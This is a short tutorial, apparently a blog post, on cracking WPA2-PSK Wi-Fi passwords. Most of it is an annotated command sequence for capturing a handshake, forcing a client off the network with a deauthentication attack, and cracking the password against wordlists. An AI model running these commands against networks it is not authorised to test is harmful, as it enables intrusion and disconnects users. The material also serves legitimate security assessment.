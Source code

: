 ```yaml
---
title: Password Cracking WPA2-PSK Networks
author: Tarus
date: 2023-06-02 16:51:00 +0300
categories: [Tutorials]
tags: [WPA2, wifi, mac address, kali linux, airmon-ng]
---
```


## What Activities Ethical Hackers perform on Wireless Networks
- Evaluating strength of PSK
- Reviewing nearby networks, rogue devices
- Assessing guest networks
- Checking network access

## Tools used
- Wireless card that supports dual band, monitor mode and packet injection. => [Plug and Play Wireless card](https://amzn.to/3RQ6XCr)
- Router
- Laptop

## Hacking Process
![Hacking Process](/assets/wpa2.png)

```plaintext
iwconfig                        #check the wireless network configurations, check if usb wireless card is working
airmon-ng check kill            #kill processes that may interfere with what we are about to do
airmon-ng start wlan0           #allows wireless card to monitor incoming traffic, where "wlan0" is name of your wireless card
iwconfig                        #confirm whether monitor mode has been enabled

airodump-ng wlan0mon            #finding the wireless network we want to specifically attack

#bssid - mac address of access point
#PWR(power level) - the lower the number the closer we are to the device
#beacons and data - show traffic happening on those bssids

airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon     #tries to capture the 3 way handshake
#-c = channel of the device
#-w capture = name of the file where the capture will be stored

#to speed the above process, do the deauth attack
#open another terminal
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 50:C7:BF:8A:00:74 wlan0mon       #will deauthanticate this device 50:C7:BF:8A:00:74 from the network to capture the 3 way handshake
#-0 = deauth attack
#1 = only one time
#-c = client we want to deauth

aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap              #tries capturing the password by comparing it to a wordlist
#-b = Acess Point mac address

wireshark capture.cap              #monitor captured traffic in wireshark, search for eapol

aircrack-ng capture.cap -w /usr/share/wordlists/rockyou.txt             #using a popolar wordlist with over 1 million entries
```

This attack will only work when the WPA2-PSK network uses **WEAK PASSWORDS**
